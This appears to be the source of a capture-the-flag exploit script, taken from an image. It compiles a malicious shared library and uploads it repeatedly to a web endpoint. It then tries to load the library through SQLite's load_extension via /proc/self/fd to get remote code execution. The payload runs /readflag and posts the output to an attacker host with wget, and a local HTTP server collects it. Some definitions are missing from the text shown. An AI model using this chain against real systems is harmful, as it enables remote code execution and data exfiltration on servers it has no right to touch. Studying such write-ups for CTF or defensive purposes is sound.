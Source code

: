 ```python
MY_PORT = 0

def send_rce():
    print('[+] uploader started', file=sys.stderr)
    while True:
        r = requests.post(url=f"http://{HOST}:{PORT}/gz/import/",
        files={
            'file': open(EXPLOIT, 'rb')
        })
        print(r.status_code, "UPLOAD", file=sys.stderr)

def call_rce(fd):
    print('[+] caller started', file=sys.stderr)
    while True:
        r = requests.post(url=f"http://{HOST}:{PORT}/gz/query",
        data={
            "sql": f"""select load_extension("/proc/self/fd/{fd}","flag")"""
        })
        print(r.status_code, "CALL", file=sys.stderr)

def compile_exploit():
    with open("rce.c", "w") as f:
        f.write(f"""
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void flag() {{
    system("wget --post-data `/readflag` http://{MY_HOST}:{MY_PORT}");
}}

void space() {{
    static char waste[500 * 1024] = {{2}};
}}
""")
    r = subprocess.run(["gcc", "-shared", "rce.c", "-o", EXPLOIT])
    if r.returncode != 0:
        exit(-1)

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_len = int(self.headers.get('Content-Length'))
        flag = self.rfile.read(content_len)
        print(flag.decode())

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

def server():
    print('[+] http server started', file=sys.stderr)
    server = ThreadingSimpleServer(('0.0.0.0', MY_PORT), Handler)
    # we only need to handle one response
    server.handle_request()
    server.shutdown()

if __name__ == "__main__":
    compile_exploit()

    s = Thread(target=server, daemon=True)
    s.start()

    t1 = Thread(target=send_rce, daemon=True)
    t1.start()
```